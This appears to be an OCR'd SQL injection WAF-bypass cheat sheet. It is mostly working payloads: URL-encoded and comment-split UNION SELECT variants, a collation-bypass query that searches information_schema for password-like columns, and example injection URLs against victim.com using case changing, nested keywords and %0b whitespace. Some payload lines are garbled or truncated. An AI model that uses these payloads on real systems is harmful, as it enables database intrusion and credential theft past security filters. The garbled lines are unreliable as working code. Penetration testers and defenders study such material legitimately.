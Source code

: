 **Union Select by PASS with Url Encoded Method:**
%55nion(%53elect)
union%20distinct%20select
union%20%64istinctRO%57%20select
union%2053elect
%23?%0auion%20?%23?%0aselect
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
%55nion %53eLEct
u%6eion se%6cect
unio%6e %73elect
unio%6e%20%64istinc%74%20%73elect
uni%6fn distinct%52OW s%65lect
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
**Illegal mix of Collations ByPass Method :**
unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))

`   /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`

`   union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`



## Bypass with Comments

SQL comments allow us to bypass a lot of filtering and WAFs.

```
 Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--

```

## Case Changing

Some WAFs filter only lowercase SQL keyword.

Regex Filter: /union\\sselect/g

    http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--

## Replaced Keywords

Some application and WAFs use preg_replace to remove all SQL keyword.
So we can bypass easily.

    http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--

Some case SQL keyword was filtered out and replaced with whitespace. So
we can use "%0b" to bypass.

    http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--

For Mod_rewrite, Comments "/\*\*/" cannot bypassed. So we use "%0b"
replace "/\*\*/".
